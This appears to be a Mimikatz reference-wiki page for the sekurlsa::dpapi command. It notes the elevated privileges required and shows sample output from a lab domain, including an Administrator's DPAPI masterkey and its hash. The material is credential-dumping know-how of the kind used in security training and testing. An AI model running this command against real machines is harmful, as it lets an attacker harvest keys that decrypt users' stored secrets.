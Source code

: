 # dpapi

`sekurlsa::dpapi` lists DPAPI cached masterkeys.

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::dpapi

Authentication Id : 0 ; 227854 (00000000:00037a0e)
Session           : RemoteInteractive from 2
User Name         : Administrator
Domain            : hacklab
Logon Server      : DC
Logon Time        : 10/17/2021 4:19:23 AM
SID               : S-1-5-21-2725560159-1428537199-2260736313-500
         [00000000]
         * GUID      :  {0686f7cf-76f3-413b-a51e-28d0d0531013}
         * Time      :  10/17/2021 4:21:59 AM
         * MasterKey :  6b5b148b9244efab617e417936227286c24d340cfb9900cc632dcf1d10fd258d16337df2e090251851dec676d9d525b1fc5bd99c9383084fd0e9f4d0c45a3b0e
         * sha1(key) :  c5049248822679fdb3e60ba37531ae3e805f7122
```
